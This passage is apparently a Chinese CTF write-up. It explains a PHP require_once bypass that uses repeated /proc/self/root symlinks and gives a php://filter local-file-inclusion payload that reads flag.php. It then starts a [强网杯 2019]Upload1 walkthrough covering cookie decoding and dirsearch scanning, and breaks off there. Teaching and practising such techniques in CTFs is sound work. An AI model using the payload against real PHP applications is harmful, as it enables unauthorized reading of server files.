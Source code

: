 ![upload successful](./images/pasted-537.png)
打开页面，看了下wp

这里涉及到一个知识点是（<a href=https://www.anquanke.com/post/id/213235>php源码分析 require_once 绕过不能重复包含文件的限制 - 安全客，安全资讯平台</a>）：PHP最新版的小Trick， require_once包含的软链接层数较多时once的hash匹配会直接失效造成重复包含。

构造payload：`/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php`

![upload successful](./images/pasted-538.png)
拿到flag

# [强网杯 2019]Upload1(*)

![upload successful](./images/pasted-539.png)
一个discuz论坛登录页面，先注册一个账号

![upload successful](./images/pasted-540.png)
成功登录，抓包看下

![upload successful](./images/pasted-542.png)
将cookie使用base64解密

![upload successful](./images/pasted-541.png)
得到一个序列化后的，使用dirsearch扫描，发现源码/www.tar.gz，解压后是一个tp5的框架